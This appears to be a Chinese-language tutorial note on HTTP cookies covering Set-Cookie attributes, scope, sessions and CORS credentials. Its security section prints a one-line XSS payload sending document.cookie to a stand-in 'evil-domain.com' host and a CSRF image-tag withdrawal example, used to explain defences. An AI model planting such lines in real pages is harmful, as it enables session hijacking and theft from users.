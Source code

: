 ```yaml
---
title: cookie.md
date: 2016-08-23 09:48:54
tags: 
- http
- cookie
---
```

### 简介
HTTP Cookie（也叫Web cookie或者浏览器Cookie）是服务器发送到用户浏览器并保存在浏览器上的一块数据，它会在浏览器下一次发起请求时被携带并发送到服务器上。

### 创建 Cookie

服务器使用Set-Cookie响应头部向用户代理（一般指浏览器）发送Cookie信息。一个简单的Cookie可能像这样：

```
Set-Cookie: <cookie名称>=<cookie值>
```

设置完 Cookie 后对该服务器发起的每一次新的请求，浏览器都会将之前保存的Cookie信息通过Cookie请求头发送给服务器。

#### 会话期Cookie
会话期 Cookie 是最简单的 Cookie：浏览器关闭之后它会被自动删除，也就是它仅在会话期间有效。会话期 Cookie *不需要指定过期时间（Expires）或者有效期（Max-Age）* 。需注意的是，有些浏览器提供了会话恢复的功能，这种情况下即便关闭了浏览器会话期 Cookie 也会被保存，就好像浏览器从来没有关闭一样。

#### 持久Cookie

和关闭浏览器便失效不同，持久Cookie可以指定一个特定的过期时间（Expires）或者有效期（Max-Age）。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

#### 安全和HttpOnly类型Cookie

只有在使用 SLL 和 HTTPS 协议向服务器发起请求时，才能确保 Cookie 被安全地发送到服务器。HttpOnly 标志并没有给你提供额外的加密或者安全性上的能力，当整个机器暴露在不安全的环境时，切记绝不能通过 HTTP Cookie 存储、传输机密或者敏感信息。

HTTP-only 类型的 Cookie 不能使用 Javascript 通过 `Document.cookie` 属性来访问，从而能够在一定程度上阻止域脚本攻击（XSS）。当你不需要在 JavaScript 代码中访问你的 Cookie 时，可以将该 Cookie 设置成 HttpOnly 类型。特别的，当你的 Cookie 仅仅是用于定义会话的情况下，最好给它设置一下 HttpOnly 标志。

只有当一个请求通过 SSL 或 HTTPS 创建时，包含 Secure 选项的 cookie 才能被发送至服务器。这种 Cookie 的内容具有很高的价值，如果以纯文本形式传递很有可能被篡改。事实上，机密且敏感的信息绝不应该在 Cookie 中存储或传输，因为 Cookie 的整个机制原本都是不安全的。默认情况下，在 HTTPS 链接上传输的 Cookie 都会被自动添加上 Secure 选项。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

#### Cookie的作用域

Domain 和 Path 指令定义了 Cookie 的作用域，即需要发送 Cookie 的 URL 集合。

Domain 指令规定了需要发送 Cookie 的主机名。如果没有指定，默认为当前的文档地址上的主机名（但是不包含子域名）。如果指定了 Domain，则一般包含子域名。

如果设置了 Domain=mozilla.org ，则 Cookie 包含在子域名中（如developer.mozilla.org）。不能跨域上设置一个 Cookie，因为这会产生安全问题。不合法的 Domain 选择将直接被忽略。

Path 指令表明需要发送 Cookie 的URL路径。字符%x2F (即"/")用做文件夹分隔符，子文件夹也会被匹配到。

如设置Path=/docs，则下面这些地址都将匹配到:

"/docs",
"/docs/Web/",
"/docs/Web/HTTP"

### 清理 Cookie`

```
Set-Cookie: <cookie名称>=; path=<Path>; expires=Thu, 01 Jan 1970 00:00:00 GMT
```


### 安全

#### 会话劫持和XSS
在Web应用中，Cookie 常常用来标记用户和会话授权。因此，如果窃取了 Web 应用的 Cookie，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有利用社会工程学进行攻击和利用应用程序的漏洞进行XSS攻击。
``` javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
HttpOnly 类型的 Cookie 由于阻止了 JavaScript 对 Cookie 进行访问而能在一定程度上缓解此类攻击。

#### 跨站请求伪造（CSRF）
维基百科已经给了一个比较好的 CSRF 例子。在这个情况下，有一张并不真实存在的图片（可能是在不安全聊天室或论坛），它实际上是向你的银行服务器发送了提现请求：
```
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```
当你打开含有了这张图片（**本质上不存在这张图片，只是为了利用浏览器加载图片去发送请求。不是 Ajax 请求，浏览器不会因为跨域而拦截。**）的HTML页面时，如果 **你已经登录了你的银行帐号并且还有效**（而且没有其它验证步骤），你的银行里的钱可能会被自动转走。


### Cookie VS Session

Cookie 和 Session 本身没什么联系。Cookie 是放置到客户端的，Session 是放置在服务器端的。服务器端的 Session 其实就是一个 K-V 形式的键值对，Key 就是 SessionID。很多时候我们就把 SessionID 放置到 Cookie 中，利用 **浏览器下一次发起请求时会携带 Cookie 并发送到服务器上** 的便利来跟踪标识一个用户。服务器端从 Cookie 中拿到 SessionID，用 SessionID 拿到 Session 的信息。很多情况下我们会在浏览器地址栏见到类似`?jsessionid=xxxxx`的URL，这种情况就是把 SessionID 放置到 URL 中来携带，在客户端不支持 Cookie 的情况下使用。之所以我们一看到 Session 就会提到 Cookie 是因为 Cookie 携带 SessionID 十分便利罢了。


### 注意事项及常见问题

### 跨域携带 Cookie 问题

CORS 请求默认不发送 Cookie 和 HTTP 认证信息。如果要把 Cookie 发到服务器，一方面要服务器同意，指定 Access-Control-Allow-Credentials 字段
```
Access-Control-Allow-Credentials: true
```

另一方面，开发者必须在AJAX请求中打开withCredentials属性。
```
var xhr = new XMLHttpRequest();
xhr.withCredentials = true;
```

否则，即使服务器同意发送 Cookie，浏览器也不会发送。或者，服务器要求设置 Cookie，浏览器也不会处理。
但是，如果省略 withCredentials 设置，有的浏览器还是会一起发送Cookie。这时，可以显式关闭 withCredentials。
```
xhr.withCredentials = false;
```

需要注意的是，如果要发送 Cookie，Access-Control-Allow-Origin 就不能设为星号，必须指定明确的、与请求网页一致的域名。同时，Cookie依然遵循同源政策，只有用服务器域名设置的 Cookie 才会上传，其他域名的 Cookie 并不会上传，且（跨源）原网页代码中的 `document.cookie` 也无法读取服务器域名下的 Cookie。


### 参考
[【1】](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies) [【2】](http://bubkoo.com/2014/04/21/http-cookies-explained/) [【3】](http://www.ruanyifeng.com/blog/2016/04/cors.html)
